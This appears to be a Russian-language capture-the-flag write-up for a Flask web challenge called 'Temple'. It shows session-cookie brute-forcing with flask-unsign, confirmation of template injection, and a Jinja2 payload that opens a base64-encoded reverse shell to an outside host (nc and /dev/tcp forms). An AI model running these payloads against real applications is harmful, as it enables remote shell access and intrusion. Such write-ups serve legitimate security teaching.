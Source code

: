 
# Temple 

<img width="835" alt="image" src="https://github.com/user-attachments/assets/12368280-ce87-44f7-ba0b-554d57d854bd">



# Сложность: Hard

# Описание:
Джунгли хранят в себе жуткие тайны...

# Deployment
Сборка образа:
```
docker build -t temple .
```
Запуск контейнера:
```
docker run -p 5555:80 6001:22 temple
```

# Writeup

Регистрируем пользователя, попадаем на страницу home.html, которая не содержит в себе какой-либо полезной информации. 
В cookies находим session, сбрутим, посмотрим, что в ней лежит:

```
python3 -m flask_unsign -u --wordlist=/usr/share/wordlists/rockyou.txt --cookie '.eJyrViotTi2KT0ksSVSyUqqOAXPzEnNTY5SsFGKUMlJzcvJjlHSAzMxin_z09NQUzzyIVElRKVBRrVItAAsiFnQ.Zrxgrw.v3aI7uJrATw4jedeIVqAkCdi41Q' --no-literal-eval
```

Видим, что кука небогата на данные: юзернейм и статус isLoggedIn
<img width="626" alt="image" src="https://github.com/user-attachments/assets/12cb2ecd-144d-4c3c-8b20-dc7932cd00ab">


Вспомним, что в заголовке server http-ответа красуется werkzeug/python => Flask, думаем в сторону SSTI. 
Повлиять можем на имя пользователя – регнем нового с юзернеймом {{7*7}} и снова сбрутим куку:
<img width="612" alt="image" src="https://github.com/user-attachments/assets/a2748cea-a864-44ab-8272-83fd46669313">


Ага, в ключе username видим 49, таким образом, подтверждаем наличие SSTI. 
Регистрируем пользователя с реверс шелл нагрузкой в юзернейме, например: 

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f" | base64

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5qcC5uZ3Jvay5pby8xMzA0NCAwPiYx" | base64 -d | bash').read() }}
```
